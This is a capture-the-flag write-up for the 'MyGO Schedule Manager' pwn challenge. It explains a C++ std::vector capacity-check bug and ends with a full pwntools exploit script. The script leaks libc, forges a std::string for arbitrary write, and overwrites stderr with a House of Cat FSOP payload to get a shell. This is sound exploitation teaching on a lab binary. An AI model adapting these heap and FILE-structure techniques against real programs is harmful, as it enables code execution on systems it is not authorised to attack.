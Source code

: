 # MyGO Schedule Manager β
> Author: 堇姬Naup

## analyze code

First, you need to login. Just input `MyGO!!!!!` in username and `TomorinIsCute` in password.

And then you will look four function about manipulate schedule.

1 -> add
2 -> edit
3 -> delete
4 -> show

`add_schedule` need to input a string which you want to emplace_back to schedule (std::vector<std::string>).
It'll check scedule not bigger than 4.

`edit_schedule` it need to two input. `index` and `string` 
It will edit schedule[index] to your input string.
And it will check your input not bigger than vector capacity(It is so strange, but let me later to descript it. It is this challenge core) 

`delete_schedule` is look like previous function.
User need to input index, it will erase vector.begin()+index.
This part check is the same, it check vector capacity.


Last function is show_schedule. It will show your schedule's string content.
And check is vector capacity.

PS: It has operation's times limit.

## Some Knowledge
First we need to know `std::vector` and `std::string` structure.
This is std::vector
| offset | description |
|--------|-------------|
| 0x0 | array's first element pointer |
| 0x8 | vector end pointer |
| 0x10 | array's capacity limit pointer  |

Anthor is std::string
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

OK, now you need to know vector capacity.
When vector need to let its capacity more bigger?
The answer is $2^n, n \in \{ 0, 1, 2, 3, \dots \}$
If it need to expand its capacity.
It will free origin chunk which store vector elements structure.
And alloc new chunk.

## analyze bug
We know vector's capacity will be expanded in advanced.
So, when vector elements count is 3.
Its capacity is four.

It will access out of vector's have element part.
So first we alloc 0x500 size std::string, and alloc 0x10 size(When you free 0x500, let your unsorted bin not consolidate to top chunk.)
And free 0x10 and free 0x500.
And you show chunk 0x500, fd and bk's libc address will be show.
We will leak libc (erase just destroy, not go to clear vector's element)
```c
iterator erase(iterator position){
    if(position + 1 != end()){
        copy(position+1,finish,position);
}
    --finish;
    destroy(finish);
    return position;
}
```

And we alloc one chunk, and input it like a fake vector (4 elements).
Fourth element 0x0 change to `You want to write address` (This is pointer point to data), and free this chunk.
0x8 and 0x10 set how many bytes you want to write.

Alloc three chunk:
When you allocate third chunk, vector capacity will be expanded to 4 and alloc new chunk store element struct.
In advanced, you have been freed one chunk which have written fake vector will be catch to use and fourth element have been put fake vector which point to `You want to write address`. 

When you read C++ source code, new allocate chunk didn't clear its chunk memory.

And it check index by capacity, so we can access this fake pointer(If we don't have UAF, when you add new schedule, your fake pointer will be overwritten).
OK, So we will get arbitrary write on libc (std::string).

We use house of cat (FSOP) and overwrite stderr. 
[House of cat](https://bbs.kanxue.com/thread-273895.htm)

And when this binary exit, We will get shell.

If you don't understand, go to read my script.

> PS: patch libc let you can success exploit on glibc 24.04
> PS: More information go to read c++ source code https://github.com/Naupjjin/gcc/tree/master

## script
```python
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

#### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 127.0.0.1 51001")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO
def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def add(item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"Input item > ", item)

def edit(idx, item):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"Index > ", str(idx).encode())
    sla(b"Edit item > ", item)

def delete(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"Index > ", str(idx).encode())

def show(idx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")
    sla(b"Index > ", str(idx).encode())

def exitf():
    sla(b"< MyGO @ ScheduleManager $ > ", b"5")

### exploit

login()
add(b"a" * 0x500)
add(b"b" * 0x10)
delete(1)
delete(0)

show(0)
r.recvuntil(b'] is ')
leaklibc = (u64(r.recvline().strip()[:6].ljust(8,b'\x00')) << 8 ) + 0x20
libcbase = leaklibc - 0x203b20


IO_STDERR = libcbase + 0x2044e0
libc_system = libcbase + 0x58740

payload1  = p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(0xaabbccdd) + p64(0) + p64(0) + p64(0)
payload1 += p64(IO_STDERR) + p64(0x1d0) + p64(0x1d0) + p64(0)

add(payload1)
delete(0)

add(b'Tomorin')
add(b'Soyorin')
add(b'Rana')

libc_IO_wfile_jumps = libcbase + 0x202228
emptylibc = libcbase + 0x204bc0
fakew_data = IO_STDERR
fake_wow = IO_STDERR + 0x18

payload2  = b"sh;".ljust(8, b"\x00") # _flags

payload2  = payload2.ljust(0x20, b"\x00")
payload2 += p64(1)
payload2  = payload2.ljust(0x30, b"\x00")
payload2 += p64(libc_system)
payload2  = payload2.ljust(0x70, b"\x00")
payload2 += p32(2)
payload2  = payload2.ljust(0x78, b"\x00")
payload2 += p64(0xffffffffffffffff)
payload2  = payload2.ljust(0x88, b"\x00")
payload2 += p64(emptylibc) + p64(0xffffffffffffffff)
payload2  = payload2.ljust(0xa0, b"\x00")
payload2 += p64(fakew_data) 
payload2  = payload2.ljust(0xc0, b"\x00")
payload2 += p32(1)
payload2  = payload2.ljust(0xd8, b"\x00")
payload2 += p64(libc_IO_wfile_jumps + 0x30) + p64(fake_wow)

edit(3, payload2)


sl(b"5")

NAUPINFO("LEAKLIBC", hex(leaklibc))
NAUPINFO("LIBCBASE", hex(libcbase))
NAUPINFO('STD ERROR', hex(IO_STDERR))
### interactive
ita()
```








